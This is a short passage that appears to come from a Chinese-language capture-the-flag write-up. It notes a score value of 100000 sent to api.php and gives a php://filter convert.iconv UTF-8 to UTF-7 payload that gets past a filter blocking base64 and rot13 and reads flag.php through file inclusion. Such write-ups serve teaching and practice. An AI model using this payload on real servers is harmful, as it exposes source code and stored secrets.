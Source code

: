 找到js，当大于100000分的时候也就行想api.php发送了`{"score": "100000"}`

![image-20231210134034203](images/24.png)

## include 0。0

![image-20231210141205071](images/25.png)



过滤了php://filter的过滤器，不能用base64和rot13了，但是还有一些其他的

```
php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php
```

![image-20231210141333290](images/26.png)
